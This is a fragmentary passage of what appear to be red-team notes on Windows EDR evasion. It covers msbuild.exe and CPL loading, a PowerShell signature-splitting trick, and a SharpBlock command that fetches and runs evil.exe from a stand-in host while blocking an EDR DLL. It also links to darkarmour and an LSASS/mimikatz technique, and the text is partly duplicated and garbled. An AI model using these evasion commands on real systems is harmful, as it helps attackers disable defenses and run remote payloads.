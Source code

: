 ```bash

```

c:\windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe

<https://pentestlab.blog/tag/control-panel/>

 In a windows system when a user is opening the control panel several CPLs files are loaded. The list of these CPL’s files is obtained from the Registry.

#### Common Techniques

##### PowerShell

```bash
"Invoke-"+"Evil"
```

##### SharpBlock

[SharpBlock](https://github.com/CCob/SharpBlock) is a method of bypassing EDR's active projection DLL's by preventing entry point execution) is a method of bypassing EDR's active projection DLL's by preventing entry point execution.

```bash
SharpBlock -e http://evilhost.com/evil.exe -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a 
```

Here below are the options:

- **-e**: Program to execute (default cmd.exe)
- **-a**: Arguments for program (default null)
- **-n**: Name of DLL to block
- **-c**: Copyright string to block
- **-p**: Product string to block
- **-d**: Description string to block

### Todo

- [darkarmour](https://github.com/bats3c/darkarmour)
- <https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f>

<https://medium.com/@gorkemkaradeniz/defeating-runasppl-utilizing-vulnerable-drivers-to-read-lsass-with-mimikatz-28f4b50b1de5>
